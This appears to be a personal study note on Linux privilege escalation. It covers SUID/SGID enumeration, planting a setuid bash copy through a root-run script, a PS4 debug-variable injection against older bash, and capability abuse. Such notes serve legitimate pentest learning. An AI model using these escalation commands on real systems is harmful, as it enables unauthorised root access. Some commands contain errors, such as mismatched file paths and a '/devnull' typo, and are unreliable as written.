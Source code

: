 Much of linux privilege controls rely on controlling the users and files interactions. These privilege levels change with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.
These files have an "s" bit set showing their special permission level, we can find them with
```sh
find / -type f -perm -04000 -ls 2>/dev/null
find / -type f -perm -u=s 2>/devnull
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
will list files that have SUID or SGID bits set. 
A good practice would be to compare executables on this list with [GTFObins](https://gtfobins.github.io/) and filtering by SUID so it only shows binaries known to be exploitable when the SUID bit is set.

From here the procedure depends on which commands are available for us to use. One way for example could be to [[Unshadow]] and use [[John The Ripper]] to try and get the plain text passwords. Or To add a new user with hopefully root privileges by using [[Openssl]] to create the hash of a new password and then add it into the `/etc/passwd` file.
## Taking Advantage
If for some reason we have access to a script that runs with root privileges but we can't use that directly to escalate be it for preference, availability, or to gain a future foothold. We can take advantage of this and modify a script to run to do the following
```shell
#!/bin/bash
cp /bin/bash /tmp/escbash
chmod +xs /tmp/escbash
```
This way we can create a copy of bash that will run with the privileges of root due to the SUID bit being set.
```Shell
/tmp/escbash -p
```
To gain a shell with privileges.

## Abusing Shell Features
For versions of Bash < 4.4
When in debugging mode, bash uses the environment variable `PS4` to display an extra prompt for debugging statements.
With this we can run an executable with the SUID bit set with bash debugging enabled and the `PS4` variable set to an embedded command which creates an SUID version of that command
```shell
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/escbash; chmod +xs /tmp/rootbash)' Executable-With-SUID
```
Then run the command with `-p` to maintain privileges 
```shell
/tmp/escbash -p
```

# Capabilities
Another method system administrators can use to increase the privilege level of a process or binary is through Capabilities. These can help manage privileges at a more granular level, if an administrator doesn't want to give a user higher privileges, they can change the capabilities of a binary to allow it to get trough its task without needing a higher privilege user. 
We can see which binaries have enabled capabilities by using
```sh
getcap -r / 2>/dev/null
```
Which would result in all the binaries with have capabilities, we are specially interested in the ones with `cap_setuid` as these can often result in escalation. For methodology refer to [GOATbins](https://gtfobins.github.io/). Even though these programs have the SUID capability, they may not have the SUID bit enabled, so they will not appear when enumerating for SUID.
